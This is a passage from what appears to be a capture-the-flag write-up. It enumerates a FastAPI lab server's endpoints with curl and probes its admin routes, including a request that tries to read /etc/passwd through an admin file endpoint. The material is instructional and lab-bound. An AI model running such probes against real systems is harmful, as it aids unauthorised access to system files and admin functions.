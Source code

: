 ```bash
      "deepLinking": true,
      "showExtensions": true,
      "showCommonExtensions": true,
      presets: [
        SwaggerUIBundle.presets.apis,
        SwaggerUIBundle.SwaggerUIStandalonePreset
      ],
  })
</script>
</body>
</html>
```
{: .nolineno }

docs points to `/openapi.json`, let's see what this endpoint contains.

```bash
$ curl -s 'http://10.129.227.148/openapi.json' -H 'Authorization: Bearer [token]' | jq
{
  "openapi": "3.0.2",
  "info": {
    "title": "FastAPI",
    "version": "0.1.0"
  },
  "paths": {
    "/": {
    "/api": {
    "/api/v1": {
    "/docs": {
    "/openapi.json": {
    "/api/v1/user/{user_id}": {
    "/api/v1/user/login": {
    "/api/v1/user/signup": {
    "/api/v1/user/SecretFlagEndpoint": {
    "/api/v1/user/updatepass": {
    "/api/v1/admin/": {
    "/api/v1/admin/file": {
    "/api/v1/admin/exec/{command}": {
  }
  [...]
}
```
{: .nolineno }

A complete list of endpoints! As we can imagine `/SecretFlagEndpoint` returns the flag of the user. This other endpoint `/updatepass` also catches our attention, but let's write it down for later, let's first take a look at `/admin/file` and `/admin/exec/{command}`.

### Exploring admin endpoints

```bash
$ curl -s 'http://10.129.227.148/api/v1/admin/file'        
{"detail":"Method Not Allowed"}

$ curl -s -X POST 'http://10.129.227.148/api/v1/admin/file' 
{"detail":"Not authenticated"}

$ curl -s -X POST 'http://10.129.227.148/api/v1/admin/file' -H 'Authorization: Bearer [token]'
{"detail":[{"loc":["body"],"msg":"field required","type":"value_error.missing"}]}

$ curl -s -X POST 'http://10.129.227.148/api/v1/admin/file' -H 'Authorization: Bearer [token]' -d '{"file": "/etc/passwd"}'
{"msg":"Permission Error"}
```
{: .nolineno }

